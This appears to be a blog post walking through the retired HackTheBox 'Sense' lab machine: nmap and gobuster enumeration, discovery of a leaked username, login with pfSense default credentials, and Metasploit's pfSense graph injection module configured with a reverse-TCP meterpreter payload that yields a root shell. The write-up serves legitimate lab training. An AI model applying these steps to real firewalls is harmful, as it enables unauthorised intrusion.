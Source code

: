 ```yaml
---
layout: post
title: "HackTheBox Sense Walkthrough"
date: 2018-03-24
tags: HackTheBox, Walkthrough
---
```


With Sense now being retired, I can go ahead and post my first "on time" hackthebox walkthrough.

#### Enumeration
Starting with Nmap, as always...
```
# Nmap 7.60 scan initiated Mon Mar 19 07:51:25 2018 as: nmap -p- -sC -sV -oA sense_full 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.049s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 19 07:53:26 2018 -- 1 IP address (1 host up) scanned in 121.24 seconds
```
So, we have a webserver. Navigating to it in Firefox we find that it is running PFSense:
![PFSense]({{"/img/blog_images/sense/pfsense.jpg" | absolute_url }})

A quick searchsploit revealed quite a few interesting vulnerabilities. However, all of the
apparently useful exploits require authentication.

```
searchsploit pfsense
---------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                |  Path
                                                                                              | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------- ----------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                            | exploits/hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                  | exploits/hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                              | exploits/hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                          | exploits/hardware/remote/35070.txt
pfSense - Authenticated Group Member Remote Command Execution (Metasploit)                    | exploits/unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                  | exploits/php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution  | exploits/php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                         | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                        | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                           | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                           | exploits/php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                             | exploits/php/webapps/41501.txt
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                    | exploits/php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                               | exploits/php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                  | exploits/php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                             | exploits/freebsd/webapps/24439.txt
---------------------------------------------------------------------------------------------- ----------------------------------
```

PFsense's default credentials (admin:pfsense) didn't work. Attempting to brute force the login ended with my ip being blacklisted. Apparently that is not the way we're supposed to get in...

#### Web Content Discovery
Considering that we have a RCE Metasploit vulnerability and we got blacklisted trying to brute force the login, we probably need to find some credentials. After a lot gobuster scans, I finally found what I needed.
```
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.60/
[+] Threads      : 50
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes : 301,302,307,403,200,204
[+] Extensions   : .txt
[+] Follow Redir : true
[+] Expanded     : true
=====================================================
http://10.10.10.60/changelog.txt (Status: 200)
http://10.10.10.60/tree (Status: 200)
http://10.10.10.60/installer (Status: 200)
http://10.10.10.60/system-users.txt (Status: 200)
http://10.10.10.60/%7echeckout%7e (Status: 403)
=====================================================
```
Changelog.txt told us that 2 of 3 vulnerabilities. It definitely sounds like we're on the right track with a pfsense vulnerability.

system-users.txt revealed a username (rohit) and a hint at the password: "password: company defaults."

Logging in with rohit:pfsense granted access to pfsense!

#### Exploitation
Now that we had usable credentials, we could go ahead and try out that MSF module.
```
Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.10.60      yes       The target address
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  rohit            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.X.X      yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```
And we get dropped into Sense as root!
```
meterpreter > getuid
Server username: root (0)
```
#### Closing Thoughts
Overall, I'd consider Sense a *** box. I'm generally not a fan of VMs that require the use of a specific list to find critical information about the machine (in this case the username). However, because I was stuck at that stage for so long, I spent a lot of effort formalizing my web content discovery process, and in retrospect that was a great learning experience. It was quite frustrating at the time though... Also, while you needed to use the right list for content discovery, it was not an unusual list. I can't really complain about that too much.

It is nice that Sense was a realistic machine. Getting blacklisted is a great touch, and I'm generally more a fan of boxes that are realistic than CTF style.